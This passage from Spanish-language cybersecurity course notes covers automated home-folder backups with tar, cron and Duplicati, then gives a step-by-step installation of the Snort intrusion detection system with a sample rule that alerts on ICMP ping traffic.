tar -czvf /backups/home_backup_$fecha.tar.gz /home/gustavo
```

Guárdalo como `backup.sh`, dale permisos:

```bash
chmod +x backup.sh
```

Y agrégalo al cron:

```bash
crontab -e
# Ejecutar todos los días a las 2:00 a.m.
0 2 * * * /ruta/backup.sh
```

---

### ✅ Ejemplo completo paso a paso

#### 🎯 Objetivo: Proteger tus archivos personales con copia automática diaria a Google Drive.

#### Paso 1: Instalar Duplicati

- Descarga desde [https://www.duplicati.com/download](https://www.duplicati.com/download)
- Instala y abre en navegador `http://localhost:8200/`

#### Paso 2: Crear una tarea de backup

- Nombre: "Backup documentos"
- Origen: `C:\Users\TuNombre\Documents`
- Destino: Google Drive (inicia sesión con tu cuenta)
- Encriptación: habilitada
- Frecuencia: diaria a las 10:00 PM
- ¡Iniciar tarea!

#### Paso 3: Probar restauración

- Borra un archivo de prueba.
- Desde Duplicati: Restaurar → seleccionar archivo → restaurar ubicación.

¡Archivo recuperado sin pérdidas!

---

### 🧠 ¿Cómo encajan los backups en la defensa en profundidad?

Las copias de seguridad son tu **última línea de defensa**:

- Un firewall puede fallar.
- El antivirus puede no detectar un ransomware.
- Pero **una copia de seguridad offline o en la nube puede salvarte de perder los datos**.

Por eso siempre deben formar parte de una estrategia de **defensa en profundidad**.

---

### 📌 Conclusión

- ✅ **Copias de seguridad** = protección contra errores, ataques y accidentes.
- ✅ **Defensa en profundidad** = múltiples capas de seguridad.
- ✅ Combinar ambas es una **mejor práctica profesional** en ciberseguridad.

---

[🔼](#índice)

---

## **892. Práctica: instalación del IDS snort**

### 🔍 ¿Qué es Snort?

**Snort** es un **IDS (Sistema de Detección de Intrusos)** que analiza el tráfico de red en tiempo real y detecta posibles ataques o comportamientos maliciosos. Puede usarse también como **IPS (Sistema de Prevención de Intrusos)** si se configura para bloquear tráfico.

---

### 🧠 Ejemplo fácil de entender

Imagina que tu red es una casa y Snort es un **perro guardián entrenado** para olfatear y ladrar si detecta algo sospechoso como una ventana rota o una puerta forzada.

- Si alguien intenta entrar sin permiso → **Snort "ladra" (alerta)**.
- Si tienes activado el IPS → **Snort "muerde" (bloquea el acceso)**.

---

### 🧱 ¿Cómo funciona Snort?

Snort detecta amenazas con tres métodos:

1. **Basado en firmas**: como un antivirus, detecta patrones conocidos.
2. **Basado en protocolo**: detecta desviaciones del comportamiento normal.
3. **Basado en anomalías**: identifica tráfico inusual.

---

### 🧰 ¿Qué necesito para instalar Snort?

Puedes instalar Snort en:

- Kali Linux 🐍 (muy recomendado)
- Ubuntu / Debian
- Windows (no es lo ideal para producción)

Aquí usaremos **Kali Linux** o **Ubuntu**.

---

### 🧪 Instalación de Snort en Kali Linux o Ubuntu

#### Paso 1: Actualiza tu sistema

```bash
sudo apt update && sudo apt upgrade -y
```

#### Paso 2: Instala dependencias

```bash
sudo apt install -y build-essential libpcap-dev libpcre3-dev libdumbnet-dev bison flex zlib1g-dev liblzma-dev openssl libssl-dev
```

#### Paso 3: Descarga e instala DAQ (Data Acquisition Library)

```bash
cd /tmp
wget https://www.snort.org/downloads/snort/daq-2.0.7.tar.gz
tar -xvzf daq-2.0.7.tar.gz
cd daq-2.0.7
./configure && make && sudo make install
```

#### Paso 4: Descarga e instala Snort

```bash
cd /tmp
wget https://www.snort.org/downloads/snort/snort-2.9.20.tar.gz
tar -xvzf snort-2.9.20.tar.gz
cd snort-2.9.20
./configure --enable-sourcefire && make && sudo make install
```

#### Paso 5: Verifica instalación

```bash
snort -V
```

Debe mostrar algo como:
`Snort version 2.9.20`

---

### 🗂️ Configuración básica

#### Paso 6: Crear estructura de carpetas

```bash
sudo mkdir -p /etc/snort/rules
sudo mkdir /var/log/snort
sudo mkdir /usr/local/lib/snort_dynamicrules
```

#### Paso 7: Copiar archivos de configuración

```bash
sudo cp etc/* /etc/snort/
```

#### Paso 8: Crear una regla de ejemplo

Edita el archivo `local.rules`:

```bash
sudo nano /etc/snort/rules/local.rules
```

Agrega:

```snort
alert icmp any any -> any any (msg:"ICMP packet detected"; sid:1000001;)
```

Esta regla detecta cualquier paquete ICMP (como un ping) y lanza una alerta.

---

### 🧪 Ejemplo completo: Detectar un "ping" con Snort

#### 1. Iniciar Snort en modo alerta

```bash
sudo snort -A console -q -u snort -g snort -c /etc/snort/snort.conf -i eth0
```

> Asegúrate de que `eth0` sea tu interfaz de red. Usa `ip a` o `ifconfig` para verificar.

#### 2. Desde otro equipo o terminal, haz un ping a la máquina:

```bash
ping <IP_de_la_máquina_con_Snort>
```

#### 3. Verás en la consola:

```bash
[**] [1:1000001:0] ICMP packet detected [**]
```

🎉 ¡Snort detectó el tráfico ICMP! Ya tienes funcionando un IDS básico.

---

### 📌 Notas importantes

- Puedes usar **Snort Rules Community** desde [https://www.snort.org/downloads](https://www.snort.org/downloads) para reglas más avanzadas.
- Snort puede trabajar en modo **pasivo (detección)** o **activo (prevención)**.
- Puedes integrarlo con **PulledPork** o **Barnyard2** para automatizar y centralizar alertas.

---

### 🧠 ¿Qué aprendiste?

| Concepto       | Explicación sencilla                                   |
| -------------- | ------------------------------------------------------ |
| IDS            | Sistema que **detecta intrusiones** en tu red          |
| Snort          | Herramienta libre para implementar un IDS              |
| Regla en Snort | Patrón que indica a Snort qué buscar                   |
| Instalación    | Kali o Ubuntu recomendado, requiere dependencias y DAQ |
| Ejemplo        | Snort alerta cuando detecta un **ping (ICMP)**         |

---

[🔼](#índice)

---

| **Inicio**         | **atrás 12**                                | **Siguiente 14**                                    |
| ------------------ | ------------------------------------------- | --------------------------------------------------- |
| [🏠](../README.md) | [⏪](./7_12_Fundamentos_de_Criptografia.md) | [⏩](./7_14_Inteligencia_para_la_Ciberseguridad.md) |
